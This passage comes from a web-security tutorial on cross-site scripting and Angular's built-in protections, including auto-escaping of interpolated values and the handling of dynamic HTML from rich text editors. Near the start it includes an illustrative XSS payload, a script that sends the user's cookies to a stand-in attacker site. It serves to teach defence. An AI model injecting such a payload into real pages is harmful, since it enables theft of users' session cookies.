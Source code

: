 But what would happen if a user enters the following piece of code into the search field?

``` typescript Simplified code snippet of the XSS attack
<script>
  alert("I am stealing your cookies!")
  window.location="http://hackersite.com/?cookie" + document.cookie;
</script>
```

If a user enters this code snippet, the browser adds it to the heading of the result page and automatically runs the script. The alert message appears, and the user's cookies get sent to the hacker's website. The example is just an illustration of the principle; in real-world attacks, the attacker tricks the user into running more advanced code.

### XSS in OWASP Top Ten 2021

In the last decade, cross-site scripting was always one of the top security risks listed in the OWASP Top 10 (#3 in 2013 and #7 in 2017).

By 2021, they are now a part of the injection group, as XSS is a specific type of injection. The combined category (including SQL injection) remains one of the most vulnerable security issues in web applications, listed in place 3. OWASP states that 94% of the tested applications suffer from some form of injection vulnerability.

{% img "xss.jpg" "Preventing XSS in Angular" "lazy" %}

## How do I make my Angular app secure?

As mentioned above, Angular ships with powerful built-in defense mechanisms to protect your web application against XSS. By design, Angular treats all user data entering the application as **untrusted**. We must ensure that no malicious code can be entered into our application's DOM (Document Object Model) by an attacker.

> **To systematically block XSS bugs, Angular treats all values as untrusted by default.**

### Angular's auto-escaping defense mechanism

The best defense mechanism for blocking XSS attacks is ensuring that the web browser never misinterprets data as code. Angular archives this by auto-escaping all data bindings that rely on interpolation. By sanitizing and escaping untrusted values, all data gets transformed into safe values before being inserted into the HTML file.

When an untrusted value gets inserted into the DOM by interpolation (using double curly brackets like `{{ var }}`), Angular is automatically aware of the potential risk. It applies its encoding mechanism to ensure that the untrusted value cannot cause any danger. Potentially dangerous characters like angle brackets get converted to their respective HTML or URL encoded equivalents. The user's browser renders the attacker's code as data, which does not get executed anymore.

### Angular and dynamic HTML code

Angular applications in production often require rendering HTML dynamically. Typical examples would be WYSIWYG editors in Content Management Systems, comment sections under blog posts, or product reviews on eCommerce sites.

Rich text editors (like [Froala](https://froala.com/wysiwyg-editor/), [CKEditor](https://ckeditor.com/), or WordPress' Gutenberg Editor) create HTML output that needs to be inserted into your application, then parsed and rendered as HTML by the browser.

